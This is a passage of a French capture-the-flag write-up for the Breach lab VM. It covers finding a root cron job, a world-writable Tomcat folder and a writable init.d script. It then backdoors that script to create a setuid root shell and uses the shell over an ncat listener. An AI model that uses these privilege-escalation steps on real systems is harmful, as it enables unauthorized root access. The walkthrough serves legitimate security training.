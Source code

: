 ```bash
#!/bin/bash

#Hacker Evasion Script 
#Initech Cyber Consulting, LLC
#Peter Gibbons and Michael Bolton - 2016
#This script is set to run every 3 minutes as an additional defense measure against hackers.

cd /var/lib/tomcat6/webapps && find swingline -mindepth 1 -maxdepth 10 | xargs rm -rf
```

J'ai uploadé et exécuté [pspy: Monitor linux processes without root permissions](https://github.com/DominicBreuker/pspy) et ce script est exécuté régulièrement, vraisemblablement via la `crontab` de root.

Le dossier mentionné dans la commande est word-writable :

`drwxrwxrwx 2 tomcat6 tomcat6 4096 Nov  9 11:00 /var/lib/tomcat6/webapps/swingline`

J'ai fait quelques tests en local et il semble qu'on peut exploiter le xargs en plaçant des fichiers dont les noms seront interprétés comme option à la commande appelée.

Malheureusement ici il s'agit de  `rm` et je n'ai pas vu de scénario d'attaque possible.

En cherchant les fichiers modifiables apartenant à `root` j'ai trouvé un script dans `init.d` :

```shellsession
milton@Breach:~$ find / -type f -user root -writable 2> /dev/null  | grep -v /proc | grep -v /sys
/etc/init.d/portly.sh
```

L'inconvénient c'est qu'il faut bien sûr redémarrer la VM après modification ce qui ne serait pas très réaliste dans la réalité.

```bash
echo "cp /bin/sh /tmp/rootshell; chmod 4755 /tmp/rootshell" >> portly.sh
```

On reboot, on relance notre webshell Tomcat et on trouve bien le binaire setuid qu'on a demandé :

```shellsession
$ ncat -l -p 9999 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 192.168.110.140.
Ncat: Connection from 192.168.110.140:44896.
ls -al /tmp
total 144
drwxrwxrwt  6 root    root      4096 Nov  9 12:22 .
drwxr-xr-x 22 root    root      4096 Nov  9 09:32 ..
-rwsr-xr-x  1 root    root    121272 Nov  9 12:21 gotroot
drwxr-xr-x  2 tomcat6 tomcat6   4096 Nov  9 12:19 hsperfdata_tomcat6
drwxrwxrwt  2 root    root      4096 Nov  9 12:19 .ICE-unix
drwxr-xr-x  2 tomcat6 root      4096 Nov  9 12:19 tomcat6-tomcat6-tmp
drwxrwxrwt  2 root    root      4096 Nov  9 12:19 .X11-unix
python3 -c 'import pty; pty.spawn("/bin/sh")'
$ /tmp/gotroot
/tmp/gotroot
# id
id
uid=104(tomcat6) gid=112(tomcat6) euid=0(root) groups=0(root),112(tomcat6)
# cd /root
cd /root
# ls -al
ls -al
total 60
drwx------  4 root root  4096 Jun 12  2016 .
drwxr-xr-x 22 root root  4096 Nov  9 09:32 ..
-rw-------  1 root root   115 Jun 12  2016 .bash_history
```